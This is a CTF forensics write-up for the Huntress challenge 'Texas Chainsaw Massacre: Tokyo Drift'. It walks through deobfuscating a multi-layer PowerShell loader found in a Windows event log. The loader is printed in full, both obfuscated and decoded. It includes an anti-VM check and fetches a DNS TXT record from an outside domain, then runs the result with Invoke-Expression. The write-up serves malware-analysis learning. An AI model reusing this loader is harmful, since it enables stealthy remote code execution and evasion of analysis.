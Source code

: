 ### Huntress CTF Challenge Texas Chainsaw Massacre - Forensics
### Date: 18/10/23
### Goal: Reverse offuscated script
### Languages: Powershell, EVTX
---
During October I played a bit with the Huntress CTF https://huntress.ctf.games/. This is a description of how I solve the forensics challenge Texas Chainsaw Massacre:

---


### Texas Chainsaw Massacre: Tokyo Drift
Author: @resume

Ugh! One of our users was trying to install a Texas Chainsaw Massacre video game, and installed malware instead. Our EDR detected a rogue process reading and writing events to the Application event log. Luckily, it killed the process and everything seems fine, but we don't know what it was doing in the event log.

The EVTX file is [attached](ChainsawMassacre.zip?raw=true "ChainsawMassacre.zip"). Are you able to find anything malicious?

Archive password: infected

---

1) The first thing I always do is to run `strings` and `file` to have a first impression of the content.


```
file Application\ Logs.evtx
Application Logs.evtx: MS Windows Vista Event Log, 3 chunks (no. 2 in use), next record no. 268
```
checking for strings showed some interesting PowerShell scripts:

 <code>
 strings -n 10 Application\ Logs.evtx
 </code>

<code>
...

(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')

...
</code>


2) If we open the Windows Event Log in a test VM and do a quick sanity check, we can quickly spot an odd event ID 1337 with a large binary blob. This can also be found looking for "Texas".

![Event Log](eventlog.png?raw=true "Application Windows Event Log")

3) If we take the binary blob and decode it we can see the same PowerShell code we saw running strings:
```Powershell
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')
```
4) The tail of the code `|( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')` can be decoded to `|. (iex)`, which will execute the previous code. If we execute all this code, except `|. (iex)`, we get:

```powershell
. ( $ENv:CoMSpEc[4,24,25]-join'')( " $( Set-variaBle 'OfS' '')"+ ( [StriNg] [rEGeX]::mAtcheS( " ))421]RAhC[,'fKI'eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,'kwl'EcalPeRC-  )')b'+'0Yb0Y'+'niOj-]52,'+'42,'+'4[ce'+'p'+'SMoC:Vn'+'ekwl ( '+'. fKI ) (DnEOTDA'+'e'+'r.)} ) '+'iicsA:'+':]GnidOcN'+'e.'+'T'+'xet'+'.'+'METsys['+' ,_kw'+'l (RED'+'AeRmaertS.oI'+' t'+'C'+'ejbO-W'+'En { HCaERoF'+'fKI) sSERpMoCe'+'d'+'::'+']edOM'+'nOisSErPMoc'+'.NoISSer'+'pMOc.oi[, ) b0Y'+'==wDyD4p+Ss/l/'+'i+5GtatJKyfNjO'+'3'+'3'+'4V'+'vj6wRyRXe1xy1pB0'+'AXVLMgOwY'+'//'+'Wom'+'zzU'+'tB'+'sx/ie0rVZ7'+'xcLiowWMGEVjk7JMfxVmusz'+'OT3XkKu9TvOsr'+'bb'+'cb'+'GyZ6c/gY'+'Npil'+'BK7x5'+'Plc'+'8qUyOhBY'+'VecjNLW42YjM8SwtA'+'aR8I'+'O'+'w'+'m'+'6'+'UwWNmWzCw'+'VrS'+'r7I'+'T2'+'k6Mj1Mu'+'K'+'T/oR'+'O5BKK8R3NhD'+'om2A'+'GYp'+'ya'+'TaNg8DAneNoeSj'+'ugkTBFTcCPaSH0QjpFyw'+'aQy'+'HtPUG'+'DL0BK3'+'lClrHAv'+'4GOpVK'+'UN'+'mGzIDeraEvlpckC9EG'+'gIaf96jSmS'+'Mh'+'h'+'RfI72'+'oHzUkDsZoT5'+'n'+'c7MD8W31XqK'+'d4dbt'+'bth1RdSigEaE'+'JNERMLUxV'+'ME4PJtU'+'tSIJUZfZ'+'EE'+'A'+'JsTdDZNb'+'0Y(gniRTS4'+'6es'+'aBmoRF::]tRevnO'+'C[]MAertsYrOmeM.Oi.mETSYs[ (MaEr'+'t'+'sEtALfeD.NO'+'IsSerPmoc.OI.me'+'TsYS'+' '+' tCejbO-WE'+'n ( '(((noIsseRpXe-ekovni ",'.','RightToLEFt' ) |forEach{$_ })+" $( sV 'oFs' ' ')" )
```
5) In this case, the next iteration will be executed by the header `( $ENv:CoMSpEc[4,24,25]-join'')` that can also be decoded as `iex`. If we remove the header and execute the rest of the code we find:

```powershell
invoke-eXpRessIon(((' ( n'+'EW-ObjeCt '+' '+'SYsT'+'em.IO.comPreSsI'+'ON.DefLAtEs'+'t'+'rEaM( [sYSTEm.iO.MemOrYstreAM][C'+'OnveRt]::FRomBa'+'se6'+'4STRing(Y0'+'bNZDdTsJ'+'A'+'EE'+'ZfZUJISt'+'UtJP4EM'+'VxULMRENJ'+'EaEgiSdR1htb'+'tbd4d'+'KqX13W8DM7c'+'n'+'5ToZsDkUzHo'+'27IfR'+'h'+'hM'+'SmSj69faIg'+'GE9CkcplvEareDIzGm'+'NU'+'KVpOG4'+'vAHrlCl'+'3KB0LD'+'GUPtH'+'yQa'+'wyFpjQ0HSaPCcTFBTkgu'+'jSeoNenAD8gNaT'+'ay'+'pYG'+'A2mo'+'DhN3R8KKB5O'+'Ro/T'+'K'+'uM1jM6k'+'2T'+'I7r'+'SrV'+'wCzWmNWwU'+'6'+'m'+'w'+'O'+'I8Ra'+'AtwS8MjY24WLNjceV'+'YBhOyUq8'+'clP'+'5x7KB'+'lipN'+'Yg/c6ZyG'+'bc'+'bb'+'rsOvT9uKkX3TO'+'zsumVxfMJ7kjVEGMWwoiLcx'+'7ZVr0ei/xs'+'Bt'+'Uzz'+'moW'+'//'+'YwOgMLVXA'+'0Bp1yx1eXRyRw6jv'+'V4'+'3'+'3'+'OjNfyKJtatG5+i'+'/l/sS+p4DyDw=='+'Y0b ) ,[io.cOMp'+'reSSIoN.'+'coMPrESsiOn'+'MOde]'+'::'+'d'+'eCoMpRESs )IKf'+'FoREaCH { nE'+'W-Obje'+'C'+'t '+'Io.StreamReA'+'DER( l'+'wk_, '+'[sysTEM'+'.'+'tex'+'T'+'.e'+'NcOdinG]:'+':Ascii'+' ) }).r'+'e'+'ADTOEnD( ) IKf .'+' ( lwke'+'nV:CoMS'+'p'+'ec[4'+',24'+',25]-jOin'+'Y0bY0'+'b)')  -CRePlacE'lwk',[ChAR]36  -CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39  -RePLACe'IKf',[ChAR]124)) 

```

6) In this interation we see the previous tail that will execute the code  `| . ( $enV:CoMSpec[4,24,25 -jOin'')`. We remove it and execute again:
```powershell
( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH { nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( ) | . ( $enV:CoMSpec[4,24,25 -jOin'') 
```

7) This generate the following decode code, which I have reformated: 

```powershell
( $ENv:CoMSpEc[4,24,25]-join'')
invoke-eXpRessIon(

try {
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ;
    if ($error.Count -eq 0) 
        { $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { $_.Strings }); 
        if ($5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') 
        { 
            [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression 
        } 
    } 
} catch { }
```

8) It is interesting to see the AntiVM mechanism below. This query will faill is the script is executed inside a VM, ending the script execution. This is done to prevent dynamic analysis in a VM:

```powershell
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ;
```

9) The rest of the code gets the TXT record of eventlog.zip and executes it. We can get this record:

```
% dig eventlog.zip  TXT

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
;; QUESTION SECTION:
;eventlog.zip.			IN	TXT

;; ANSWER SECTION:
eventlog.zip.		160	IN	TXT	"U3RhcnQtUHJvY2VzcyAiaHR0cHM6Ly95b3V0dS5iZS81NjFubmQ5RWJzcz90PTE2IgojZmxhZ3s0MDk1MzczNDdjMmZhZTAxZWY5ODI2YzI1MDZhYzY2MH0jCg=="

```

We can now Base64 decode it, and get a youtube video that mimics the payload, and the flag:

```
echo U3RhcnQtUHJvY2VzcyAiaHR0cHM6Ly95b3V0dS5iZS81NjFubmQ5RWJzcz90PTE2IgojZmxhZ3s0MDk1MzczNDdjMmZhZTAxZWY5ODI2YzI1MDZhYzY2MH0jCg== |openssl enc -a -d

Start-Process "https://youtu.be/561nnd9Ebss?t=16"
#flag{409537347c2fae01ef9826c2506ac660}#
```
